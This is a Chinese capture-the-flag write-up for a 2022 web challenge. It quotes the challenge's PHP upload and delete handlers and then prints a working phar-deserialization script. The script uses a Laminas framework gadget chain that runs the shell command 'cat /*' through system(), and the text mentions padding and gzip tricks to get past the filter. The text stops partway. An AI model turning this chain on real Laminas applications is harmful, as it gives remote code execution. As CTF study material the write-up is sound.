


# 2022-红明谷-Web-Writeup

## Fan website

www.zip泄露，下载下来发现有上传和删除点，存在phar反序列化：

```java
    public function imgdeleteAction()
    {
        $request = $this->getRequest();
        if(isset($request->getPost()['imgpath'])){
            $imgpath = $request->getPost()['imgpath'];
            $base = substr($imgpath,-4,4);
            if(in_array($base,$this->white_list)){     //白名单
                @unlink($imgpath);
            }else{
                echo 'Only Img File Can Be Deleted!';
            }
        }
    }
    public function imguploadAction()
    {
        $form = new UploadForm('upload-form');

        $request = $this->getRequest();
        if ($request->isPost()) {
            // Make certain to merge the $_FILES info!
            $post = array_merge_recursive(
                $request->getPost()->toArray(),
                $request->getFiles()->toArray()
            );

            $form->setData($post);
            if ($form->isValid()) {
                $data = $form->getData();
                $base = substr($data["image-file"]["name"],-4,4);
                if(in_array($base,$this->white_list)){   //白名单限制
                    $cont = file_get_contents($data["image-file"]["tmp_name"]);
                    if (preg_match("/<\?|php|HALT\_COMPILER/i", $cont )) {
                        die("Not This");
                    }
                    if($data["image-file"]["size"]<3000){
                        die("The picture size must be more than 3kb");
                    }
                    $img_path = realpath(getcwd()).'/public/img/'.md5($data["image-file"]["name"]).$base;
                    echo $img_path;
                    $form->saveImg($data["image-file"]["tmp_name"],$img_path);
                }else{
                    echo 'Only Img Can Be Uploaded!';
                }
                // Form is valid, save the form!
                //return $this->redirect()->toRoute('upload-form/success');
            }
        }

        return ['form' => $form];
    }
```

网上查一下就能直接查到反序列化的链子：

https://www.mrkaixin.top/posts/7e504798/

```java
<?php
namespace Laminas\View\Resolver{
    class TemplateMapResolver{
        protected $map = ["setBody"=>"system"];
    }
}
namespace Laminas\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        function __construct(){
            $this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
        }
    }
}


namespace Laminas\Log\Writer{
    abstract class AbstractWriter{}

    class Mail extends AbstractWriter{
        protected $eventsToMail = ["cat /*"];  								//  cmd  cmd cmd
        protected $subjectPrependText = null;
        protected $mail;
        function __construct(){
            $this->mail = new \Laminas\View\Renderer\PhpRenderer();
        }
    }
}

namespace Laminas\Log{
    class Logger{
        protected $writers;
        function __construct(){
            $this->writers = [new \Laminas\Log\Writer\Mail()];
            $this->aaaaadsf="xxxx";
        }
    }
}


namespace{


    use Laminas\Log\Logger;

    $a = new Logger();
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($a); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
    $phar->stopBuffering();
}


?>
```

因为有大小的限制，所以xxx那里填充一定的字符。

然后就是去年hfctf final的方法了，gzip打包来绕过waf：




